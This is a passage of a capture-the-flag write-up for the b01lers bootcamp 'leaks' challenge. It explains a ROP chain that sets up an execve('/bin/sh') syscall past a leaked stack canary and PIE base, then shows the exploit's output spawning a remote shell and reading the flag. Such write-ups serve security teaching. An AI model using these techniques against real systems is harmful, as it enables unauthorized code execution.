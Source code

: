 Next, is our argument to `yay` (`59` is the `execve` syscall number).  This may not seem intuitive, but set a breakpoint at `leave` and follow it yourself.  IANS, `leave` pops the saved base pointer into `rbp`, normally we do not care what the value is, but in this case we do because `yay` will push it back to the stack, then pop it into `$rax`--required for `syscall`.

Next, are the parameters to `execve`: the pointer to `/bin/sh` (`name`) and popping `0`'s into `$rsi` and `$r15` (just along for the ride).  `$rdx` is already zero, so no need to set.

Lastly, the call to `yay` to pop the shell.

> There are other options, e.g. put `59` on the stack and call `pop rax; syscall` directly, or use sigreturn, etc...  I went this route because it was easy.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/goodbye_mr_anderson/leaks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.ctf.b01lers.com on port 1009: Done
[*] _start: 0x561ef7c45100
[*] binary.address: 0x561ef7c44000
[*] name 0x561ef7c48050
[*] canary: 0x1c53f1c9ba8fcf00
[*] Loaded 16 cached gadgets for './leaks'
[*] Switching to interactive mode
$ id
uid=1000(leaks) gid=1000(leaks) groups=1000(leaks)
$ ls -l
total 36
-r-xr-x--- 1 root leaks    46 Oct  2 18:33 Makefile
-r--r----- 1 root leaks    32 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root leaks 17152 Oct  3 04:07 leaks
-r-xr-x--- 1 root leaks   906 Oct  2 18:33 leaks.c
-r-xr-x--- 1 root leaks    39 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{l0tsa_l33ks_4r3_imp0rt4nt}
```
